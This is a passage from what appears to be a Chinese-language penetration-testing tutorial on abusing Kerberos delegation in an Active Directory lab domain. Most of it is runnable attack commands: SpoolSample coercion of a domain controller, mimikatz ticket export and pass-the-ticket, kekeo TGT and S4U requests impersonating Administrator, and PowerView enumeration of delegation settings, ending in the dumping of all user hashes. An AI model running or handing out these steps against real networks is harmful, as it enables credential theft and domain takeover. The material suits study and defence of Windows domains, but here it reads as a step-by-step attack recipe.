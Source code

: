 下面我们再利用Spooler打印机服务错误强制让运行了spooler服务的机器通过kerberos或ntlm的方式连接指定的目标机器：

SpoolSample.exe dcserver win7

导出tgt：

mimikatzprivilege::debugsekurlsa::tickets  /export

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0zfRX1nOibflwp2gvMjRAQsLwE0kH9uc6IUj1vzTfywzdTdYpiaYe0btQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

导入票据：

kerberos::ptt  [0;1f9fc7]-2-0-60a10000-DCSERVER$@krbtgt-JUMBOLAB.COM.kirbi

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0uTM8MCfTu4At7p8WNtUIpIUiah9VkV8CFGyhxGCh59zdia60mibichN4Bg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

win7机器即可获取所有用户hash：

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I05iaW5lZKcMHrnAfVnyQm1xFnG5gnygVhK93iaiaF60SLaaiaWR6K97te5g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

发现非约束委派机器可以用如下命令：

查找域中配置非约束委派用户:

Get-NetUser  -Unconstrained -Domain jumbolab.com

查找域中配置非约束委派的主机：

Get-NetComputer  -Unconstrained -Domain jumbolab.com

**5.5.2.3 约束委派**

利用过程如下：

存在服务用户，test，并设置约束委派：

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0vM6WISJClCvaxCpyVV0tZibib1iaNfnfY1B37cyDbhCFTUpMoJapoCE7w/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

服务账号可以为一个域用户设置spn即可:

setspn.exe  -U -A test/test test

申请tgt：

kekeo：tgt::ask  /user:test /domain:jumbolab.com /password:aA123456

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0A6MC4KbcbpvRvmQOz7jkhXXiar7fNmQm5icQ9tQXeUFicjW3T6DbojU4Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

利用生成的tgt申请st：

kekeo：tgs::s4u  /tgt:TGT_test@JUMBOLAB.COM_krbtgt~jumbolab.com@JUMBOLAB.COM.kirbi  /user:Administrator@jumbolab.com  /service:cifs/dcserver.jumbolab.com

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0Ld5yqRFnn6D70hkQxF4RLicklf4YqmODtTB2Gqb3N3Br1zHdj8dibLOg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

导入st：

mimikatz：kerberos::ptt  TGS_Administrator@jumbolab.com@JUMBOLAB.COM_cifs~dcserver.jumbolab.com@JUMBOLAB.COM.kirbi

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0D0ib24OawiaqVWfnmbklWO0ykN8wC0dTVib0LrM433YPzuRnPr0I4bX5Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

发现约束委派机器可以用如下命令：

查找域中配置约束委派用户:

Get-DomainUser  -TrustedToAuth -Domain jumbolab.com

查找域中配置约束委派的主机：

Get-DomainComputer  -TrustedToAuth -Domain jumbolab.com